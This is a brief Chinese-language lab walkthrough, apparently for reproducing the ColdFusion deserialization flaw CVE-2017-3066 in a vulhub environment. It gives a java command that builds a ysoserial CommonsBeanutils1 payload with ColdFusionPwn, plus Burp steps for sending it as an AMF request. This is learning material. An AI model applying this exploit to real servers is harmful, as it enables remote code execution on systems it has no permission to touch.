


https://github.com/vulhub/vulhub/tree/master/coldfusion/CVE-2017-3066

https://codewhitesec.blogspot.com/2018/03/exploiting-adobe-coldfusion.html

环境启动成功后，访问http://your-ip:8500/CFIDE/administrator/index.cfm，输入密码vulhub，即可成功安装Adobe ColdFusion。

linux 下执行(windows7下未成功):

	java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-0.0.5-all.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'touch /tmp/success' poc.ser

发送 poc,

修改 Content-Type为application/x-amf

上传 poc.ser 到kali，

burp 右击选择Paste From File，上传poc.cer文件

如果成功，并且打算以后还需要用的话，右击选择Copy to File保存为文件。

